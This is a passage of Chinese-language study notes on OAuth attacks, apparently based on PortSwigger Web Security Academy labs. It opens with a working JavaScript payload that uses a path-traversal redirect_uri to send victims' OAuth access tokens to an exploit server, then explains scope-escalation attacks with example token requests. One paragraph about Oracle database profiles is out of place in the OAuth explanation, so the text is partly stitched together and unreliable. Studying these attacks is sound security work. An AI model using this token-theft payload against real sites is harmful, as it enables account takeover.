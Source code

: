 

```
<script>
    if (!document.location.hash) {
       window.location = 'https://oauth-0a6100bc0475b613c0510174028d00eb.web-security-academy.net/auth?client_id=bri4o1igz21d4y80leatr&redirect_uri=https://0a24001b04c6b6e8c0ee0181004d0062.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0100d3048db684c04d016c019200fc.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
   } else {
       window.location = '/?'+document.location.hash.substr(1)
   }
</script>
```

####有缺陷的范围验证

**在任何 OAuth 流程中，用户必须根据授权请求中定义的范围批准请求的访问权限**。但在某些情况下，由于 OAuth 服务的验证存在缺陷，攻击者可能会“升级”具有额外权限的访问令牌（被盗或使用恶意客户端应用程序获得）。执行此操作的过程取决于授权类型。

#####权限提升：授权码流

虽然无法通过第三方获取他人的授权码，攻击者可以通过自己的客户端应用程序，最初使用`openid email`范围请求访问用户的电子邮件地址。用户批准此请求后，恶意客户端应用程序会收到一个授权码。当攻击者控制他们的客户端应用程序时，他们可以向包含附加范围 `scope`的代码/令牌交换请求添加另一个参数：`profile`

```
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```

profile可以用来对用户所能使用的数据库资源进行限制，可以通过DBA_USERS以及DBA_PROFILES查看用户可以使用多少资源。使用Create Profile命令创建一个Profile，用它来实现对数据库资源的限制使用，如果把该profile分配给用户，则该用户所能使用的数据库资源都在该profile的限制之内。

如果服务器没有根据初始授权请求的范围验证这一点，它有时会使用新范围生成访问令牌并将其发送到攻击者的客户端应用程序：

```
{
    "access_token": "z0y9x8w7v6u5",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid email profile",
    …
}
```

#####权限提升：隐式流

对于[隐式授权类型](https://portswigger.net/web-security/oauth/grant-types#implicit-grant-type)，访问令牌是通过浏览器发送的，这意味着攻击者可以窃取与无辜客户端应用程序相关的令牌并直接使用它们。一旦他们窃取了访问令牌，他们就可以向 OAuth 服务的`/userinfo`端点发送一个基于浏览器的普通请求，在此过程中手动添加一个新`scope`参数。

理想情况下，OAuth 服务应`scope`根据生成令牌时使用的值验证此值，但情况并非总是如此。只要调整后的权限不超过先前授予此客户端应用程序的访问级别，攻击者就可能访问其他数据，而无需用户进一步批准。

####未经验证的用户注册
